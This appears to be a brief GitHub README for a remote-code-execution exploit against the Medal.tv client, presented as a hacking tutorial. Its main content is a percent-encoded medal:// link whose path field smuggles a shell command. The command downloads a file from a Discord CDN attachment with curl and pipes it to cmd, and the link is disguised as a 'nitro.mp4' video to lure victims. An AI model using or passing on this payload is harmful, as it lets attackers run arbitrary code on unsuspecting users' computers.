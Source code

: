 # medal-tv-rce

## tutoriel how 2 hack
`<medal://import/pc?path=%22;%7C%63%75%72%6C%20%2D%73%20%68%74%74%70%73%3A%2F%2F%63%64%6E%2E%64%69%73%63%6F%72%64%61%70%70%2E%63%6F%6D%2F%61%74%74%61%63%68%6D%65%6E%74%73%2F%39%38%34%35%32%39%39%38%39%36%33%32%34%32%36%31%31%36%2F%39%39%30%34%31%39%30%34%30%32%33%35%32%39%30%37%30%34%2F%74%65%20%7Ccmd&name=nitro%2E%6D%70%34>` 

## how does dis work
see executor.js
